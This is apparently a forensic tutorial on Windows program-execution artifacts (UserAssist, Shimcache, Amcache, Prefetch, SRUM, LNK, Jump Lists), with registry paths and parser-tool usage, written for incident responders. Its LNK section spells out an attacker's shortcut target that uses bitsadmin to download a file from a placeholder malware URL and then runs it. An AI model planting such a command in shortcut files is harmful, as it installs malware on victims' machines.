





<h1 style="text-align:center"> DFIR 101 Program Execution Artifacts </h1>

# Introduction

One of the points where both guiding and very clear findings can be obtained by analysts during incident response is the "Program Execution Artifacts" provided by the Windows operating system. These and similar structures created by Windows for different purposes help analysts in the analysis stages. For example, although the Windows Prefetch structure is intended for applications to run faster, it can provide evidence of whether an application is running during incident response. In this article series, Windows structures that serve as evidence of incident response will be mentioned. 


---
# Content

+ UserAssist
+ RecentApps
+ Shimcache
+ Amcache
+ Prefetch
+ SRUM
+ Last-Visited MRU
+ LNK
+ JumpLists

---

<h1 style="text-align:center"> What is UserAssist? How to Analyze? </h1>

UserAssist stores following informations about running processes on Windows systems; number of runs, the amount of time the application was run in focus, the total time the application was run, and the last run. The following point should not be missed here; There must be user interaction to increase the number of runs. So don't be surprised if the "count" value is 0 even though a record logs here:) 

As for the question "Where and how to find these files?"; it can be analyzed with the help of various tools or manually. In fact, it is a registry record. But if you say, "I don't want to deal with one by one," you can use helpful tools. **HKCU\Software\Microsoft\Windows\Currentversion\Explorer\UserAssist\{GUID}\Count** is located in. 
Here are the specific GUIDs. **CEBFF5CD**, “**exe**” files are kept, while **F4E57C4B** kepts **LNK** files and shows the counts of these files. All of the data held here is **encoded** with **ROT-13**. For example: "**.exe = . RKR**" "**.lnk=. YAX**".


| Offset | Size(byte) | Description |
| ------:| -----------:| -----------: |
| 0-3    |  4          | Define session |
| 4-7    |  4          | Run count (Starting at 0) |
| 8-11   |  4          | Number of Focus |
| 12-15  |  4          | Total focus time of the app (milliseconds)|
| 16-59  |  44         | Unknown |
| 60-67  |  8          | Last run time (FILETIME) |
| 68-72  |  4          | Always 0x00000000 | 
[1]


---
<h1 style="text-align:center"> What is RecentApps? How to Analyze?</h1>

RecentApps is the registery value that holds the last run time and run counters of the applications. It is located in **HKCU\Software\Microsoft\Windows\Current Version\Search\RecentApps** registry key.


**AppID**= AppID of the app.

**LastAccessedTime**= Last accessed time (UTC).

**LaunchCount**= Run counter.

Only Windows 10 systems have RecentApps records.

---

<h1 style="text-align:center"> What is Shimcache? How to Analyze?</h1>

Shimcache (AppCompatCache) is a component of the Application Compatibility Database created by Microsoft (starting with Windows XP) and used by the operating system to identify application compatibility issues.

If we are looking for answers to the questions of whether an executable file has previously worked on the device and when it has worked, the place we need to look is the Shimcache artifacts. To do this, an image is taken with the FTK Imager tool and the SYSTEM hive files and log files located under the  **%SYSTEMROOT%/system32/config** directory are taken.



On the live system, the evidence file  is located in the  **HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\AppCompatCache** registry key.



Shimcache, which varies according to the operating system type and version, contains the following information;
+ File Full Path
+ File Size
+ $Standard_Information (SI) Last Modified time
+ Shimcache Last Updated time
+ Process Execution Flag

Since the records are kept in HEX form, more understandable results can be obtained by using parser applications.

**AppCompatCacheParser**

With the help of this tool prepared by Eric Zimmerman, it analyzes and outputs a SYSTEM hive file given by various output methods or the records of the system in which the tool is running (requires administrator privilege). Here, when the analyst scans with the help of specific IOCs, they can determine whether a known malware has previously worked on the system.

```
AppCompatCache Parser version 1.4.4.0

Author: Eric Zimmerman (saericzimmerman@gmail.com)
github[.]com/EricZimmerman/AppCompatCacheParser

        c               The ControlSet to parse. Default is to extract all control sets.
        f               Full path to SYSTEM hive to process. If this option is not specified, the live Registry will be used
        t               Sorts last modified timestamps in descending order

        csv             Directory to save CSV formatted results to. Required
        csvf            File name to save CSV formatted results to. When present, overrides default name

        debug           Debug mode
        dt              The custom date/time format to use when displaying timestamps.     Default is: yyyy-MM-dd HH:mm:ss
        nl              When true, ignore transaction log files for dirty hives. Default is FALSE

Examples: AppCompatCacheParser.exe --csv c:\temp -t -c 2
          AppCompatCacheParser.exe --csv c:\temp --csvf results.csv

          Short options (single letter) are prefixed with a single dash. Long commands are prefixed with two dashes
```

After the files are imported, they can be run as "**AppCompatCacheParser.exe -f SYSTEM –csv <output directory>**" through the command line and output.


When the resulting "csv" file is examined, it is seen that the records of the last running applications are kept. Shimcache stores various file metadata depending on the operating system, i.e. the amount of data retained varies according to the operating system in general terms, such as: Full path of the file, file size, $Standard_Information (SI) last modified time, Shimcache last update time, Process execution marker. Events in Shimcache.hve are listed in chronological order, with the most recent event being the most recent, and can be used to recreate and identify malicious processes in timelines.


---

<h1 style="text-align:center"> What is Amcache? How to Analyze?</h1>

ProgramDataUpdater (a task linked to the Application Experience Service) uses the Amcache.hve registry file for the duration of process creation. File Path=> **\\%SYSTEMROOT%\AppCombat\Programs\Amcache.hve**

Amcache contains the path of the file being run, the time it was first executed, the time it was deleted, and the SHA1 hash value.

Because of Amcache also keeps records of applications run on portable devices, records of anti-forensic applications can also be found in this artifact.

**AmcacheParser**
With the help of this tool prepared by Eric Zimmerman, it analyzes and outputs a ** Amcache.hve** hive file or the records of the system in which it is running (requires administrator privilege) given by various output methods. Here, when the analyst scans with the help of certain IOCs, he can determine whether a malicious software with a known name/hash value has previously worked on the system.  

```
AmcacheParser version 1.4.0.0

Author: Eric Zimmerman (saericzimmerman@gmail.com)
github[.]com/EricZimmerman/AmcacheParser

        b               Path to file containing SHA-1 hashes to *include* from the results. Blacklisting overrides whitelisting
        f               Amcache.hve file to parse. Required
        i               Include file entries for Programs entries
        w               Path to file containing SHA-1 hashes to *exclude* from the results. Blacklisting overrides whitelisting

        csv             Directory where CSV results will be saved to. Required
        csvf            File name to save CSV formatted results to. When present, overrides default name

        dt              The custom date/time format to use when displaying timestamps.     Default is: yyyy-MM-dd HH:mm:ss
        mp              When true, display higher precision for timestamps. Default is FALSE
        nl              When true, ignore transaction log files for dirty hives. Default is FALSE

        debug           Show debug information during processing
        trace           Show trace information during processing

Examples: AmcacheParser.exe -f "C:\Temp\amcache\AmcacheWin10.hve" --csv C:\temp
          AmcacheParser.exe -f "C:\Temp\amcache\AmcacheWin10.hve" -i on --csv C:\temp --csvf foo.csv
          AmcacheParser.exe -f "C:\Temp\amcache\AmcacheWin10.hve" -w "c:\temp\whitelist.txt" --csv C:\temp

          Short options (single letter) are prefixed with a single dash. Long commands are prefixed with two dashes
```
---

<h1 style="text-align:center"> What is Prefetch? How to Analyze?</h1>

Windows Prefetch files are designed to speed up the process of application launch. It is located under the **%windir%\Prefetch** folder. In the files in this directory; There is a stamp that contains the name of the executable file, the list of DLLs used by the file, the number of times the file has run, and the most recent runtime.

In this file, records are kept for 128 applications in Windows 7 systems and for 1024 applications in Windows 8 and 10 systems.

Since there are multiple files, it is a waste of time to examine these records one by one. Here again there are various tools. 

**PECmd**

PECmd, which is frequently used in forensic analysis processes, analyzes Prefetch records on the device where it is operated or in the given directory and offers various types of output. Here, when the analyst scans with the help of certain IOCs, he can determine whether a malicious software with a known name/hash value has previously worked on the system.

```
 PECmd version 1.4.0.0

 Author: Eric Zimmerman (saericzimmerman@gmail.com)
 github[.]com/EricZimmerman/PECmd
 
         d               Directory to recursively process. Either this or -f is required
         f               File to process. Either this or -d is required
         k               Comma separated list of keywords to highlight in output. By default, 'temp' and 'tmp' are highlighted. Any additional keywords will be added to these.
         o               When specified, save prefetch file bytes to the given path. Useful to look at decompressed Win10 files
         q               Do not dump full details about each file processed. Speeds up processing when using --json or --csv. Default is FALSE
 
         json            Directory to save json representation to.
         jsonf           File name to save JSON formatted results to. When present, overrides default name
         csv             Directory to save CSV results to. Be sure to include the full path in double quotes
         csvf            File name to save CSV formatted results to. When present, overrides default name
         html            Directory to save xhtml formatted results to. Be sure to include the full path in double quotes
         dt              The custom date/time format to use when displaying timestamps.     Default is: yyyy-MM-dd HH:mm:ss
         mp              When true, display higher precision for timestamps. Default is FALSE
 
         vss             Process all Volume Shadow Copies that exist on drive specified by -f or -d . Default is FALSE
         dedupe          Deduplicate -f or -d & VSCs based on SHA-1. First file found wins. Default is TRUE

         debug           Show debug information during processing
         trace           Show trace information during processing
 
 Examples: PECmd.exe -f "C:\Temp\CALC.EXE-3FBEF7FD.pf"
           PECmd.exe -f "C:\Temp\CALC.EXE-3FBEF7FD.pf" --json "D:\jsonOutput" --jsonpretty
           PECmd.exe -d "C:\Temp" -k "system32, fonts"
           PECmd.exe -d "C:\Temp" --csv "c:\temp" --csvf foo.csv --json c:\temp\json
           PECmd.exe -d "C:\Windows\Prefetch"

           Short options (single letter) are prefixed with a single dash. Long commands are prefixed with two dashes
```

"**PECmd.exe -d "C:\Windows\Prefetch" –csv <name of directory to extract> -q**" was run with the command line. " The "-q" parameter is written so that not all individual steps are shown on the command-line screen.

The information obtained from the Prefetch files analyzed is as follows; The time the ".pf" file was created/modified and accessed, the name of the executable file that caused the ".pf" file to occur, the size of the executable file, and the last time it was executed.


---

<h1 style="text-align:center"> What is SRUM (System Resource Usage Monitor) ? How to Analyze?</h1>

SRUM is a mechanism that tracks and records the use of system resources. SRUM, which keeps records for 30-60 days, actually keeps records of the data we see in the Windows Task Manager. These; network, CPU, RAM, GPU, disk usage etc.

SRUM Application Resource Usage Records;

+ Application Full Path - The full file path of the application.
+ Application ID - Application ID.
+ Background Bytes Read - Number of bytes read in the background.
+ Background Bytes Written - Number of bytes written in the background.
+ Background Context Switches - Number of background context switches.
+ Background Cycle Time - Background cycle time.
+ Background Num Read Operations - Number of background read operations.
+ Background Num Write Operations - Number of background write operations.
+ Background Number Of Flushes - Number of background flushes.
+ Created Date - Date/Time when the entry was created in the database.
+ Foreground Bytes Read - Number of foreground bytes read.
+ Foreground Bytes Written - Number of foreground bytes written.
+ Foreground Context Switches - Indicates the number of foreground context switches.
+ Foreground Cycle Time - Foreground cycle time.
+ Foreground Num Read Operations - Number of foreground num read operations.
+ Foreground Num Write Operations - Number of foreground num write operations.
+ Foreground Number Of Flushes - Number of foreground number of flushes.
+ User ID - The User ID.
+ User SID - Security Identifier value of the user running the application.[2]

SRUM Network Resource Usage Records;

+ Connection Duration - Indicates the amount of time the device was connected to the network (in seconds).
+ Connection Start Date - Date/Time when the connection to the network initiated.
+ Created Date - Date/Time when the entry was created in the database.
+ Interface Type - Indicates the interface type.

---

<h1 style="text-align:center"> What is Last-Visited MRU? How to Analyze?</h1>

Keeps records of executable files that open/save in pop-up windows. For example, when we want to save file what is written in "Notepad.exe" with the CTRL+S macro, if we do not make changes to a file but write it as a new file, it asks us for a file path and file name to save.



 **NTUSER. DAT\Software\Microsoft\Windows\CurrentVersion\Explorer\ComDlg32\LastVisitedPidlMRU** can be found under the registry key and is analyzed with the help of various tools.

 

 
 
 This registry key contains the following artifacts;
+ File Name - The name of the application that opens the open/save window.
+ Full File Path - The full file path of the application that opens the open/save window.
+ Registry Change Date - The date that the MRU key was last modified.
+ MRU Order - The order of applications accessing the open/save window. The value of the last application to do this is 1 (new-to-old).

---

<h1 style="text-align:center"> What are LNK files? How to Analyze?</h1>

LNK files are shortcut files. The shortcut file for a file that you open on the system is automatically created in the **%APPDATA%\\\Roaming\\Microsoft\\Windows\\Recent Items** file path. When we look at it from the forensics window, if a file has a shortcut with the extension LNK here, we can say that this file has been opened on the device. In the malware window, we need to look at the structure of the LNK files. 

 

As can be seen in the image, LNK files have a target command line. When an attacker types **" 'cmd file path' /C bitsadmin /transfer downloadFile /download /priority normal 'Malware download URL' 'Target File Path' & start 'Target File Path'" ** into the target section of the LNK file sent to you, the attacker  can download and run a malware from the remote server.
The place we need to look here is the **" Target"** line of the LNK file. The point to be considered is that; A maximum of 255 characters appears in the target section of the settings section, but the target part here can be up to 4096 characters. At this point, it is necessary to look at the hexadecimal values of the file.


[3]

---

<h1 style="text-align:center"> What is Jump Lists? How to Analyze?</h1>

When we right-click on the applications pinned on the taskbar on Windows systems, some shortcuts and frequently used files with the right-clicked application appear. The shortcuts that appear here  are called **Jump List**.

There are two types of Jump Lists on Windows systems.
    
1. AUTOMATICDESTINATIONS-MS
        The directory where the Jump List files are created automatically when a user opens a file or application and is  located in the file path "C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Recent\AutomaticDestiations"**
2. CUSTOMDESTINATIONS-MS  
        As the name implies, it is the directory where the Jump List files created for user-created/pinned files or applications are located in the  file path **"C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Recent\CustomDestinations"**

The JLECmd (Eric Zimmerman) tool can be used to analyze the remains found here.

---

## Reference

[1] www.scitepress[.]org/papers/2017/64167/64167.pdf

[2] forensafe[.]com/blogs/srudb.html

[3] www[.]mcafee.com/blogs/other-blogs/mcafee-labs/rise-of-lnk-shortcut-files-malware/
